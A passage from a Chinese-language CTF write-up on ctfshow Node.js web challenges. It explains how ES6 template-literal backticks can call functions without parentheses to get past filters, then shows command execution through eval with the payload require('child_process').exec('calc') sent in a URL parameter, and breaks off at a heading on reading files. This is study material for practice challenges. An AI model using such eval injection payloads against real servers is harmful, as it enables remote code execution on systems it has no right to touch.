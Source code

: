 所以直接payload（小写绕过）

```
输入：ctfshow和123456
```

##  ES6模板字符串

我们可以使用反引号替代括号执行函数，如:

```
alert`test!!`
```

可以用反引号替代单引号双引号，可以在反引号内插入变量，如：

```
var fruit = `apple`;
console.log`i like ${fruit} very much`;
```

事实上，模板字符串是将我们的字符串作为参数传入函数中，而该参数是一个数组，该数组会在遇到`${}`时将字符串进行分割，具体为下：

```
["i like ", " very much", raw: Array(2)]
0: "i like "
1: " very much"
length: 2
raw: (2) ["i like ", " very much"]
__proto__: Array(0)
```

所以有时使用反引号执行会失败，所以如下是无法执行的：

```
eval`alert(2)`
```

## 命令执行

### ctfshow web335

F12中有个`eval`，想到了通过eval来命令执行

eval() 函数可计算某个字符串，并执行其中的的 JavaScript 代码。和PHP中eval函数一样，如果传递到函数中的参数可控并且没有经过严格的过滤时，就会导致漏洞的出现。



在Node.js中的chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令在eval函数的参数中可以构造`require('child_process').exec('');`来进行调用。

例如，

弹计算器:

```
/eval?q=require('child_process').exec('calc');
```

读取文件
